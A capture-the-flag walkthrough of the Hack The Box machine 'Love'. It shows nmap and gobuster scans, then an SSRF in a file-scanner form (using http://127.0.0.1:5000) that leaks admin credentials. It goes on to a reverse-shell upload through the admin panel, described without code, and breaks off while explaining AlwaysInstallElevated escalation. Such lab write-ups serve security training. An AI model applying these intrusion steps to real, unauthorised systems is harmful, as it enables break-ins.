Box author | 

<!--more-->

## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.239
```

- the result

```sql
# Nmap 7.91 scan initiated Sat Aug 14 02:50:38 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.28s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, HTTPOptions, Help, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe, oracle-tns: 
|_    Host '10.10.14.7' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/14%Time=6116BF2A%P=x86_64-unknown-linux-gnu
SF:%r(HTTPOptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(R
SF:PCCheck,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatu
SF:sRequestTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help
SF:,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,4
SF:9,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCoo
SF:kie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionRe
SF:q,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,
SF:"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0\
SF:x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server")%r(FourOhFourRequest,49,"E\0\
SF:0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\x01\
SF:xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connec
SF:t\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xffj\x04Host\x
SF:20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20thi
SF:s\x20MariaDB\x20server")%r(NotesRPC,49,"E\0\0\x01\xffj\x04Host\x20'10\.
SF:10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Ma
SF:riaDB\x20server")%r(oracle-tns,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.1
SF:4\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB
SF:\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h44m51s, deviation: 4h02m31s, median: 24m50s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-13T12:16:32-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-13T19:16:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 02:51:55 2021 -- 1 IP address (1 host up) scanned in 77.19 seconds
```

- All ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.239
```

- the result

```sql
# Nmap 7.91 scan initiated Sat Aug 14 04:54:24 2021 as: nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.27s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LPDString, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.14.7' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-08-13T21:47:03+00:00; +24m50s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/14%Time=6116E1D8%P=x86_64-unknown-linux-gnu
SF:%r(HTTPOptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(R
SF:TSPRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVe
SF:rsionBindReqTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20
SF:not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(
SF:DNSStatusRequestTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(Help,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSess
SF:ionReq,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalS
SF:erverCookie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSS
SF:essionReq,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x2
SF:0allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerber
SF:os,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0
SF:\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20c
SF:onnect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\x01\x
SF:ffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect
SF:\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"E\0\0\x01\xffj\
SF:x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20
SF:to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj\x04Ho
SF:st\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x2
SF:0this\x20MariaDB\x20server")%r(LANDesk-RC,49,"E\0\0\x01\xffj\x04Host\x2
SF:0'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this
SF:\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h09m51s, deviation: 3h30m03s, median: 24m49s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-13T14:46:49-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-13T21:46:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 05:22:15 2021 -- 1 IP address (1 host up) scanned in 1671.47 seconds
```

### Open Ports
- This machine have webserver on port 80,443 and 5000.
- Also, SMB
- The nmap scan found the host name
	- `staging.love.htb`
	- `love.htb`
	- added to the 	`/etc/hosts` file.

### WebPage [love.htb]
- Let's take look at `love.htb`



- It's just a login page.
- We need credentials to access it

### Gobuster
- I'm gonna run the gobuster scan in the background

```bash
gobuster dir -u http://love.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php
```

- the result



- I'll try my best to enumerate it.
- unfortunately, I can't find anything yet.
- Let's check the other site.

### WebPage [staging.love.htb]



- Well, this is just `free file scanner` app.
- I try to `sign up` but it didn't work.
- However, I found the `input form` in the `demo tab` (at the top navbar)



- It scans the file by entering the URL
- Now, I'm gonna start the python web server and make a request



- then, put the URL.
- we've got the response.



### SSRF
- Server Side Request Forgery [SSRF]


The attacker can supply or modify a URL which the code running on the server will read or submit data, and by carefully selecting the URLs, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases or perform post requests towards internal services which are not intended to be exposed.
- [OWASP - Server Side Request Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [PortSwigger - Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)


- Remember the Nmap scan earlier. 
- we've found port `5000` open and running `Apache` but we can't reach it.
- So, I'm gonna make the server do request on itself by putting `http://127.0.0.1:5000`
- the result



- cool! we've got the `admin credentials`
- gobuster scan earlier found the `/admin/` directory
- let's login with those creds

## Foothold/Gaining Access

### WebPage [love.htb/admin]


- We've got access to the admin panel
- Let's enumerate the admin panel. 
- I've found the `upload section` on the `admin update profile`



- Let's upload the `reverse shell`
- navigate to `love.htb/images/<filename>` to activate the reverse shell

## Phoebe
- success!
- we've got the shell
- Let's get the `user flag`



### User Flag


### WinPEAS
- Now, I'm gonna upload the `WinPEAS`
- Then, run the binary



- To be honest, I can't find anything at all. 
- Then, I just keep opening the link that has `red color`
- Man oh man, I've found it. 

## Privilege Escalation



> <font color="yellow">Checking AlwaysInstallElevated</font>

- Let's googling around. I've found some good source
- Source
	- [Hacking Articles - Windows Privilege Escalation (AlwaysInstallElevated)](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)
	- [HackTricks - windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
	- [Microsoft - AlwaysInstallElevated](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)

### AlwaysInstallElevated

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by <font color="yellow">MSI packages</font> for the installation of applications. These MSI packages can be installed with elevated privileges for non-admin users


- How, we wanna know if this `AlwaysInstallElevated` can use?
	- If these 2 registers are enable (value is 0x1)
	- then, users of any privilege can install (execute) `*.msi` files as `NT AUTHORITY/SYSTEM`
	- Source
